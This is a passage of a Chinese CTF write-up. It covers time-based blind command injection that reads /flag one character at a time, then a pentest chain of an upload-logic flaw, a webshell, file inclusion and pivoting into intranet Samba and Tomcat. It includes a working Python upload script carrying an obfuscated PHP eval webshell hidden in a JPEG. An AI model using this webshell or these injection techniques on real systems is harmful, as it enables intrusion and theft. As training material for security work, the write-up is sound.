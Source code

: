 我们可以采用`cat /flag | cut -c 1 | tr N 10`这样的形式对`flag`进行猜解。

* `cat /flag`读取`/flag`中的内容
* `cut -c 1`截取第一个字符
* `tr N 10`用`10`来代替`flag`中的字母`N`

所以，通过把`flag`中的内容读出来之后，用字母代替进行`sleep`，如果猜解对的话，并且排除网络原因，页面会延缓`5s`才返回，所以我们可以利用这个特性把`flag`猜解出来。

其实这里设置得不太好，应该把`flag`改成全英文比较好一些得到`flag`。也可以用`burp intruder`来猜解。



###	Web4 Pentest
首先通过扫目录扫出上传页面，然后利用上传处理的错误逻辑，上传带一句话的图片(图片会经过gd库解析)，解析出错不会删除上传的文件（可以在 index 页面看到）， 然后文件包含拿 shell, 得到 web 目录下的 Import_notes 文件，知道需要打登录内网 samba 拿 flag, 于是 reGexx 代理进内网。

samba 共享里面有一半 flag , 还需要利用漏洞打内网的另外一台 tomcat ,拿到 shell ， 读取第二部分的 flag


具体利用步骤
通过扫目录扫到 `upload.php` , 可以上传图片，上传后会用 gd 对图片进行二次渲染， 由于代码逻辑不当，当渲染失败时图片依然会保存在服务器上，可以通过 `index.php` 看到引用的 `url`.



然后上传文件

![](https://ws1.sinaimg.cn/large/006daSSqgy1fy8sxqzmwjj31ea0hx78u.jpg)

```
import requests

session = requests.Session()

paramsPost = {"submit": "\xe4\xb8\x8a\xe4\xbc\xa0"}
paramsMultipart = [('upload_file', ('hac425.jpg', "\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x01\x00\x00\x00\x00\x00\x00\xff\xe10\xcaExif\x00\x00MM\x00*\x00\x00\x00\x08\x00\x04\x011\x00\x02\x00\x00\x00\x0b\x00\x00\x10J\x87i\x00\x04\x00\x00\x00\x01\x00\x00\x10V\x88%\x00\x04\x00\x00\x00\x01\x00\x00 \xa2\xea\x1c\x00\x07\x00\x00\x10\x0c\x00\x00\x00>\x00\x00\x00\x00\x1c\xea\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00<?php \x24VsLC=create_function(str_rot13('\x24').chr(96600/840).str_rot13('b').str_rot13('z').chr(0346-0201),base64_decode('ZQ==').base64_decode('dg==').base64_decode('YQ==').chr(0247370/01432).str_rot13('(').chr(0x6204/0x2b9).base64_decode('cw==').base64_decode('bw==').base64_decode('bQ==').base64_decode('ZQ==').chr(0x13f-0x116).chr(0x397-0x35c));\x24VsLC(base64_decode('NDE3N'.'jc4O0'.'BldkF'.'sKCRf'.''.chr(0x3dc-0x387).str_rot13('R').chr(423-366).chr(0204170/01446).base64_decode('Vg==').''.''.chr(01157-01051).chr(0x10ca2/0x256).str_rot13('k').chr(0x217-0x1bf).chr(0x5fa5/0x127).''.'k7MTI'.'1MzAz'.'NDs='.''));?>", 'image/jpeg'))]
response = session.post("http://192.168.245.142:6655/upload.php",
                        data=paramsPost, files=paramsMultipart)

```
